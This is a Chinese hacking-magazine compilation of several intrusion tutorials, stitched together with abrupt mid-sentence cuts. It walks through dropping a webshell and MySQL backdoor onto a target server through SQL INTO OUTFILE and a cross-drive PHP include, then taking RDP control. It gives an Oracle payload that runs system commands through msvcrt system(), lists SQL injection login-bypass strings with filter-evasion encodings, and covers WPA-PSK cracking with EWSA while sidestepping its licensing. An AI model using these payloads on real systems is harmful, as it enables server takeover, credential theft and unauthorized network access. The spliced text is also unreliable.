可是结果很令人郁闷，虽然导出成功了，可是大马却跑不出来，用一句话读取了一下，发现大马的特殊字符全被转义了。这个方法不行，不过还是有解决办法的，我们可以把大马用 Base64 加密一下，然后再导出就没问题了。

可是用 Base64 加密之后大马会变得很大，测试的时候网站速度很卡，结果不知道是没有导出完全还是导出的 Webshell 语句被破坏了，访问的时候总是报错。接下来的很长一段时间都浪费在寻找可以写入的目录，最后发现网站上放了一个修改过的 Discuz!。搞过 Discuz! 的朋友都知道，它的 cache 目录是可以写入的，可是结果很打击人，没想到管理员变态至此，如图 2 所示。



到这里我就完全放弃了在 Web 目录寻找存在写入权限目录的想法，可是不在 Web 目录，那我们的 Webshell 要怎样执行呢？况且 Web 所在的整个盘符都是不允许写入的。难道要放弃么？肯定不能！那么如何才能让服务程序执行我们的脚本呢？这时候我想到了 PHP 的远程包含漏洞。

关于这个漏洞的成因，我想大家多多少少都知道些，漏洞的发生是由 PHP 的几个包含文件的函数造成的，示例如下：

```php
include ($INC_SYSHOMEDIR."include/session.inc.php");
```

其它的还有 `include_once`、`require`、`require_once`，不过远程包含是有条件限制的，`allow_url_fopen` 需要开启，条件有点苛刻，而且即使包含成功了，在以 GET 方式访问的时候也会出现问题。

除了远程包含，还可以本地包含，我们这回就用文件包含来突破。首先需要找一个可写的目录，前面我们已经知道 Web 目录用不上，而且就连它的整个盘符都是不可写入的，这样我们用 `include_once("../../shell.php")` 的方法也行不通。

那要怎么解决呢？通过测试发现 `include` 函数可以跨盘符包含文件，比如我们把 shell 放到 C 盘，就可以通过 `include("c:/shell.php");` 来包含 shell.php 了。Shell 的功能没有任何的影响，和在 Web 目录操作是完全一样的。

本地测试成功还不够，还要拿目标网站实战下。先来找一下 C 盘可写的目录，大家都还记得 `c:\windows\temp` 目录吧？默认是 everyone 可写的。试着把 MySQL BackDoor 用一句话客户端写入，返回 ok，如图 3 所示，说明写入成功。

然后回到 phpMyAdmin 执行如下 SQL 语句：

```sql
Drop TABLE IF EXISTS a;
Create TABLE a (cmd text NOT NULL);
Insert INTO a (cmd) VALUES ('<?php include "c:/windows/temp/123.php";?>');
select cmd from a into outfile 'D:/WebRoot/shop/gsrc.php';
Drop TABLE IF EXISTS a;
```

执行之后，访问下 gsrc.php 文件，令人激动人心的时刻终于来了，我们的 MySQL BackDoor 正常执行。在 “E:\WebRoot\phpMyAdmin\config.inc.php” 中找到 MySQL 的 root 密码，然后选择右上角的 “自动安装 MySQL Backdoor”，提示导出成功，然后就可以执行 cmd 命令了，如图 4 所示。





接着自然是添加用户，提升权限，最终成功拿到服务器权限，登录 3389 后如图 5 所示。

**总结：** 在实战的时候发现，只能用 `include` 才能成功包含，`include_once`、`require`、`require_once` 却不行，明明本地测试是成功的。还有就是 `<?php include "c:/windows/temp/123.php";?>` 这句，`include` 前面最好加上 “@” 防止报错，建议用 `include` 函数。

本文没什么技术含量，只为抛砖引玉，大家有什么更好的办法可以发到 “黑手” 来啊。

> **编辑点评：** PHP 有 include，ASP 也有呀！大家的思路不要只局限在作者的这篇文章中哦。



## 无线 WPA—PSK 加密破解利器 EWSA



■ Christopher Yang／杨哲【ZerOne】

本文精彩的是对 EWSA 工具的介绍

## 前言

现在很多朋友都在玩无线破解，那么在进行无线 WPA-PSK 加密破解的时候，都会发现单机破解速率一般都保持在 300-500 pass/s 左右，即每秒钟只能尝试 300-500 个左右密码组合，对于采用了包含大小写字母及数字等的 8 位 WPA-PSK 连接密码来说，除非是弱密码，否则这个速度是非常缓慢的。那么，这里给大家介绍一种全新的高速无线加密破解工具 EWSA。

## 1、关于 EWSA

EWSA，全称为 Elcomsoft Wireless Security Auditor，翻译过来就是 Elcomsoft 无线安全审计工具，一般都简称为 EWSA。该工具支持 Windows 2000/XP/2003/Vista 系统，这下使用 Windows 的朋友不用担心了。

ElcomSoft 是一家在安全界非常有名的俄罗斯软件公司，出品过众多商业化密码破解软件，涉及 Office、SQL、PDF、EFS 等等。2009 年 1 月 15 日，ElcomSoft 推出了 “Wireless Security Auditor 1.0”，号称可以利用显卡的 GPU 运算性能快速攻破无线网络 WPA-PSK 及 WPA2-PSK 密码，运算速度相比单纯使用 CPU 可提高最多上百倍。不过经过我的实测，一般都是在 3-30 倍。

这款软件的工作方式很简单，就是利用词典去暴力破解无线 WPA 和 WPA2 密码，还支持字母大小写、数字替代、符号顺序变换、缩写、元音替换等 12 种变更设定，在 ATI 和 NVIDIA 显卡上均可使用，具体支持列表参考表 1。

**什么是 GPU？**
简单来说，GPU 就是显卡上的图形运算处理芯片，绝大多数情况下，其用来进行图形处理，就是大家在玩游戏时处理图像算法及特效效果用的。而调用显卡上自带的 GPU 来进行通用运算是目前国际上领先的一项技术之一，该技术已经开始被国内外的黑客们使用到破解领域。换句话说，我们现在使用的显卡可不光是用于玩游戏，还可以用来破解密码哦。



## EWSA 的使用准备

### 硬件篇：

首先检查一下自己或者周围机器上的显卡是否在支持列表中，若没有合适的显卡也没有关系，EWSA 同样可以直接使用 CPU 来进行破解。

下面是适用于绝大部分用户的显卡支持列表，包括 NVIDIA 及 ATI 两类显卡，涉及更高级商业显卡的详细列表请到 Elcomsoft 的官网查看。

| 显卡厂商 NVIDIA | 显卡厂商 ATI |
| :--- | :--- |
| GeForce 8500 GT | RADEON HD 3000 系列 |
| GeForce 8600 GTS | RADEON HD 4600 系列 |
| GeForce 9600 GTX | RADEON HD 4800 系列 |
| GeForce 9800 GTX | 等等或更高版本 |
| 等等或更高版本 | |

**表 1 适合大多数人的 EWSA 显卡支持列表**

### 安装篇：

在安装前，先到官方网站 http://www.elcomsoft.com/ewsa.html 下载 EWSA 最新版本，截至 2009 年 4 月的最新版本为 1.02。稍有遗憾的是，目前官网还没有提供中文版的下载，所以我们选择安装英文版。安装方法很简单，双击 setup.exe 后一直不断点击下一步就可以了，要注意的是，当提示输入注册码时应直接跳过。

### 注册篇：

这里要提醒大家的是：经过测试，目前我们通过 Google 搜索到的所谓注册机全部都是无法使用的，当你将注册机或者破解后的主程序替换掉源程序后，将会出现破解成功后只有提示而无法显示出任何密码的情况。不过办法总是有的，我将在本文后面提到具体的操作方法。

## EWSA 的破解实战

这里我把整个破解分为两个部分，第一部分是使用 EWSA 对捕获的无线 WPA-PSK 数据报文进行破解；第二部分是在破解完成之后，使用 WinHex 从内存读取已破解的密码。

关于无线 WPA-PSK 验证数据报文的捕获，大家可以使用鼎鼎有名的 Aircrack-ng 套装或者 Commview for WiFi 等工具获得，也可以参考其它一些文章或者我的博客内容，这里就不再描述。

### 第一部分操作步骤：

1. **步骤 1：** 打开 EWSA，由于是未注册版本，所以需要等待 15 秒。进入主界面后，在菜单处选择 Options（选项），在这里有几个必须要先行设置的选项，分别是 “CPU Options”、“GPU Options”、“Dictionary Options” 及 “Password mutation Options”，如图 2 所示。
2. 点击打开 “CPU Options”，可以看到当前环境的 CPU 核心数量、产品型号、工作主频等信息。这里我使用的是 Intel 4 核 Q9300 CPU，操作系统为 Windows XP SP3，如图 3 所示。
3. 点击打开 “GPU Options”，可以看到当前环境的显卡型号、显存、工作频率等信息，这里我使用的是 GeForce 9800GTX 高端显卡。若不是支持的显卡，此处将无法识别出并显示为空白。详细信息可以点击 “Display drivers info” 来查看，如图 4 所示。



4. 点击打开 “Dictionary Options”，可以看到如图 5 所示，默认情况下 EWSA 已经提供了一个英文单词字典，但是这里我们可以选择 “Add” 再添加其它预备的字典，比如事先制作的 8 位数字字典。若希望先启用某个字典，可以点选字典，将其用右侧的 Up 排序。



**步骤 2：**

在将 EWSA 设置完毕后，即可开始导入事先捕获的 W

当有时候提示：“ORA-12514：TNS：监听程序当前无法识别连接描述符中请求的服务”，那就换另一种。

连接上后，我们就要创建库了，如图6所示：

```sql
CREATE OR REPLACE LIBRARY exec_shell AS 'c:\windows\system32\msvcrt.dll';
/
```

写一个过程来调用 msvcrt.dll 里的 system() 函数，命令如下，执行过程如图7、图8所示。

```sql
CREATE OR REPLACE PACKAGE oracmd IS
  PROCEDURE exec (cmdstring IN CHAR);
end oracmd;
/
CREATE OR REPLACE PACKAGE BODY oracmd IS
  PROCEDURE exec (cmdstring IN CHAR)
  IS EXTERNAL
  NAME "system"
  LIBRARY exec_shell
  LANGUAGE C;
end oracmd;
/
```

然后我们执行 SHELL 命令，如图9所示，成功创建了管理员用户。测试完毕后，删除用户，不要破坏，如图10。

教程完毕，本文的目的是提醒广大管理员安装完数据库后，要把一些不安全的设置修复，谢谢大家阅读，呵呵。

**编辑点评：** 我以前在 Oracle DB 11g 中测试过这段在 Oracle 中执行命令的代码，没有成功，不知是不是版本的原因，语句肯定是……

```bash
C:\>sqlplus /nolog
SQL>connect system/manager@(description=(address_list=(address=(protocol=tcp)(host=192.168.0.1)(port=1521)))(connect_data=(SERVICE_NAME=SID)))
```

## 小花样 大气象 —— SQLi 技术再挖掘

这种手段经常用于过滤不严的表单，比如登录页面，下面是一个典型的存在此类漏洞的登录页面代码：

```sql
DROP temptable;--
-- 适用于 SQL Server 和 MySQL
DROP 'temptable'#
-- '#' 适用于 MySQL，这对判断服务器环境有帮助哦！
```

本文总结了一些 SQLi 语法，值得看一下！

SQLi 算是当今最流行的渗透技术之一了，你随便翻翻渗透网站的文章，有一大半都是利用 SQLi 漏洞来实现的。讲解 SQLi，最先讲的一般都是经典的类似于 “and 1=1” 和 “and 1=2” 的语句。然而，SQLi 并非都是这么容易，在实践中有时也会遇到些棘手的情况。比如有些网站对提交的数据进行了检查，或进行了容错处理以防止 SQLi。另外，还有一些小技巧，对我们利用 SQLi 漏洞来说是很有帮助的。

```asp
<%
myDSN1="mssql连接字符串"
myDSN2="mysql连接字符串"
myDSN3="oracle连接字符串"
set conn=server.createobject("adodb.connection")
conn.open myDSN
username=request.querystring("username")
enteredpassword=trim(request.querystring("password"))
if username <> "" then
  mySQL="SELECT * FROM tblusers WHERE username='" & username & "'"
  set rs=conn.execute(mySQL)
  rs.movenext
  password=trim(rs.fields("password"))
  if enteredpassword = password then
    response.write "Password Correct"
  else
    response.write "Password Incorrect"
  end if
end if
%>
```

### 一、注释符的作用

对于管理员为 admin 的存在漏洞的 MSSQL 网站，我们在用户名处输入 “admin'--” 便能以管理员身份登录，无论输入的密码是什么。还原一下，SQL 语句大致为：`SELECT * FROM members WHERE username = 'admin'--' AND password = 'XXXXXXXX'`。当然，在这种情形下，SQLi 的利用不止这一种形式，下面的也可以尝试：

- `admin' #`
- `admin'/*`
- `' or 1=1--`
- `' or 1=1;#`
- `' or 1=1/*`
- `') or '1'='1--`
- `') or ('1'='1--`
- `......`

（注意：要根据服务器的数据库环境来选择相应的语句。）

我们还可以以一个不同的身份登录，语句类似于：`' UNION SELECT 1, '目标用户名', 'XXXXXXXX', 1--`（需要 UNION 支持）。还有一种情况，程序不直接验证输入的密码，而是把输入的密码的 MD5 散列（也可以是其它算法）与数据库中相应的散列进行对比。其实，我们同样可以绕过验证，比如输入：

```text
Username: admin
Password: 234' AND ''=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055'
```

这样，程序便会将 “1234” 的 MD5 散列与我们给出的 MD5 散列 “81dc9bdb52d04dc20036dbd8313ed055”（密文为 “1234”）进行对比，而不是将 “1234” 与数据库中的记录进行对比。

注释符还可以用于混淆语句以绕过对参数的检查机制，试看如下例子：

```sql
-- e.g.
DR/**/OP/*bypass blacklisting*/temptable -- 等价于 “DROP temptable”。
SELECT/*avoid-spaces*/password/**/FROM/**/Members WHERE username='admin'/**/or/**/1=1# 
-- 其中 username='ad'+'min'/**/OR/**/'1'='1' 也可以写为 username='admin'OR'1'='1'
```

我们还可以玩得更花哨一点，比如有一个带参数的 ASP 页面：`http://site/login.asp?Username=admin&Password=XXXXXXXX`，它的查询语句类似于：`SELECT * FROM Users WHERE Username='admin' AND Password='XXXXXXXX'`。为了逃避检查并绕过验证，我们可以提交：`http://site/login.asp?Username=admin'OR'1'/*&Password=XXXXXXXX*/='1';`，那么它的查询语句就变成了：`SELECT * FROM Users WHERE Username='admin'OR'1'/* AND Password='*/='1'`。

发散思维，`OR '1'='1'` 可以用以下语句替代：

- `OR 'Simple' LIKE 'Simp%'`
- `OR 'Simple' > 'S' OR 'Simple' < 'X' OR 2 > 1`
- `OR 'Simple' IN ('Sim'+'ple')`
- `OR 'Simple' = N'Simple'`（`N` 代表 `nvarchar`，它告诉 SQL Server 把 `'Simple'` 解析为 `nvarchar` 类型，这并未带来实质上的改变。）

如果服务器是 MySQL 环境并开了 magic_quotes，或者服务端使用了其它的过滤引号的机制，我们可以将 `Username('admin'OR'1'='1'/*&Password=XXXXXXXX*/='1')` 参数通过 16 进制转换，改写成以下形式：

```sql
-- MySQL
0x61646D696E274F522731273D312F2A2650617373776F72643D585858585858582A2F3D2731 

-- MySQL
CONCAT(CHAR(61),CHAR(64),CHAR(6D),CHAR(69),CHAR(6E),CHAR(27),CHAR(4F),CHAR(52),CHAR(27),CHAR(31),CHAR(27),CHAR(2F),CHAR(2A),CHAR(26),CHAR(50),CHAR(61),CHAR(73),CHAR(73),CHAR(3D),CHAR(58),CHAR(58),CHAR(58),CHAR(58),CHAR(58),CHAR(58),CHAR(58),CHAR(58),CHAR(2A),CHAR(2F),CHAR(3D),CHAR(27),CHAR(31)) 

-- SQL Server
CHAR(61)+CHAR(64)+CHAR(6D)+CHAR(69)+CHAR(6E)+CHAR(27)+CHAR(4F)+CHAR(52)+CHAR(27)+CHAR(31)+CHAR(27)+CHAR(2F)+CHAR(2A)+CHAR(26)+CHAR(50)+CHAR(61)+CHAR(73)+CHAR(73)+CHAR(3D)+CHAR(58)+CHAR(58)+CHAR(58)+CHAR(58)+CHAR(58)+CHAR(58)+CHAR(58)+CHAR(58)+CHAR(2A)+CHAR(2F)+CHAR(3D)+CHAR(27)+CHAR(31) 
```

